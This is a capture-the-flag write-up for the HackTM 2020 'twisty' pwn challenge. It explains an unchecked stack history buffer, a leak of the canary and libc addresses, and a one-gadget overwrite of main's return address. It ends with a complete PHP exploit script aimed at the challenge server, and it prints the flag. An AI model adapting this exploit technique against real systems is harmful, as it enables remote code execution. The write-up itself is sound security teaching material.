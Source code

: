 # twisty - HackTM 2020 Quals
## Introduction

twisty is a pwn task.

It is a C implementation of the puzzle from the `shifty` task. This
implementation has a different notation for moves, and keeps track of the
player's history. The player can undo their moves.


## Vulnerability

The vulnerability is straightforward: the history lays on the stack, but there
is no bound check on it.

A player can underflow the history buffer by sending undo requests. This will
result in them overwriting the board of the game.

A player can overflow the history buffer by sending 4096 moves. This will
overwrite the number of move in the history.

The stack is arranged like this:
```
uint8_t  board[0x10];
uint8_t  history[2048];
uint32_t index;
```

Every move is coded on a nibble (4 bits) according to the following look-up
table:
```
c0u: 0x00
c1u: 0x01
c2u: 0x02
c3u: 0x03
c0d: 0x04
c1d: 0x05
c2d: 0x06
c3d: 0x07
r0r: 0x08
r1r: 0x09
r2r: 0x0a
r3r: 0x0b
r0l: 0x0c
r1l: 0x0d
r2l: 0x0e
r3l: 0x0f
```


## Leak

By overwriting the `index` variable, and showing a list of moves, it is possible
to leak variables on the stack. This works by making the program think there are
more moves in the history than the current amount.

Among the variables are:
* The canary (offset 0x10)
* The entry point (offset 0x30)
* The return address of `__libc_start_main` (offset 0x50)

Only the libc address is required to exploit this binary.

The leak is achieved by filling the history with 4096 moves, and partially
overwriting the `index` variable to `0x000010b0` (`r3r`)


## Exploitation

Exploitation is similar to the leak, except that the return address of `main` is
rewritten after being read.

This can be done by "rewinding" the pointer right before the address with undo,
and sending carefully selected move to change the return address to a value
controlled by the attacker.

The one-gadget at `libc + 0x0004526a` has been selected for this task. It
requires `[rsp + 0x30]` to be NULL. This can be achieved by sending enough `c0u`
moves to zero out the next values on the stack.

The return address is called when the puzzle is fully solved. Solving the
puzzle is out of the scope of this writeup. The method to solve it is explained
in a different writeup.

**Flag**: `HackTM{0h_boY_thi$_5P!nniNG's_gonn@_m4k3_Me_D!zzY}`


## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/home/user/ctf/tools/pwn/phplib/hexdump.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "138.68.67.161";
const PORT = 20007;

function cube(Tube $t)
{
	$cube = "";
	for($i = 0; $i < 4; $i++)
		$cube .= $t->readLine();
	$t->expect("> ");

	return $cube;
}

function leak(Tube $t)
{
	static $LUT = [
		"c0u" => 0x00, "c1u" => 0x01, "c2u" => 0x02, "c3u" => 0x03,
		"c0d" => 0x04, "c1d" => 0x05, "c2d" => 0x06, "c3d" => 0x07,
		"r0r" => 0x08, "r1r" => 0x09, "r2r" => 0x0a, "r3r" => 0x0b,
		"r0l" => 0x0c, "r1l" => 0x0d, "r2l" => 0x0e, "r3l" => 0x0f,
	];

	cube($t);
	$t->write("l");

	$line = trim($t->readLine());
	$leak = explode(" ", $line);
	$leak = array_slice($leak, 4096);

	/* Apply the LUT */
	$ret = $leak;
	for($i = 0; $i < sizeof($ret); $i++)
		$ret[$i] = $LUT[$ret[$i]];

	return $ret;
}

function leak2str($leak)
{
	$ret = "";
	for($i = 0; $i < sizeof($leak); $i += 2) {
		$low  = $leak[$i + 1] ?? 0;
		$high = $leak[$i]     ?? 0;

		$ret .= chr(($high << 4) | $low);
	}

	return $ret;
}

function str2move($str)
{
	static $LUT = [
		"c0u", "c1u", "c2u", "c3u",
		"c0d", "c1d", "c2d", "c3d",
		"r0r", "r1r", "r2r", "r3r",
		"r0l", "r1l", "r2l", "r3l",
	];

	$ret = [];
	for($i = 0; $i < strlen($str); $i++) {
		$byte  = ord($str[$i]);
		$ret[] = $LUT[$byte >> 4];
		$ret[] = $LUT[$byte & 0x0F];
	}

	return $ret;
}

printf("[*] Creating process\n");
$time = microtime(true);
$t = new Socket(HOST, PORT);

$t->expectLine("Welcome to my game!");
$t->expectLine("Your job is to get the \"rubik's square\" to this configuration:");
$t->expectLine("");
$t->expectLine("ABCD");
$t->expectLine("EFGH");
$t->expectLine("IJKL");
$t->expectLine("MNOP");
$t->expectLine("");
$t->expectLine("Good luck!");
$t->expectLine("");
$t->expectLine("");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

printf("[*] Fill history buffer\n");
cube($t);
$t->write(str_repeat("r0r", 4096)); // 8888888

for($i = 0; $i < 4096 - 1; $i++)
	cube($t);

// 00001000
printf("[*] Leak data\n");
cube($t); $t->write("r3r"); // 0x000010b0 + 1

$leak   = leak2str(leak($t));
printf("%s\n", hexdump($leak));

$canary = substr($leak, 0x10, 8);
$base   = unpack("Q", substr($leak, 0x30, 8))[1] - 0xc00;
$libc   = unpack("Q", substr($leak, 0x50, 8))[1] - 0x20830;

printf("[+] Canary: %s\n", bin2hex($canary));
printf("[+] Base: 0x%016X\n", $base);
printf("[+] libc: 0x%016X\n", $libc);

printf("[*] Overwrite return\n");
for($i = 0; $i < 0x11; $i++) {
	cube($t);
	$t->write("u");
}

$one_gadget = $libc + 0x0004526a; // rsp + 0x30 == 0
$t->write(implode("", str2move(pack("Q", $one_gadget))));
for($i = 0; $i < 16; $i++)
	cube($t);

printf("[*] Grooming stack\n");
$t->write(implode("", str2move(str_repeat("\x00", 0x38))));
for($i = 0; $i < 2 * 0x38; $i++)
	cube($t);

solve:
printf("[*] Solving challenge\n");
$cube = cube($t);

$code = "[";
for($i = 0; $i < 16; $i++) {
	if($i % 4 === 0)
		$code .= "[";

	$code .= sprintf("%d, ", ord($cube[$i]) - 0x41);

	if($i % 4 === 3)
		$code .= "],";
}
$code .= "]";

$cmd = sprintf("echo %s | python2 ./solve.py", escapeshellarg($code));
$ret = shell_exec($cmd);
$t->write($ret);

$t->pipe();
```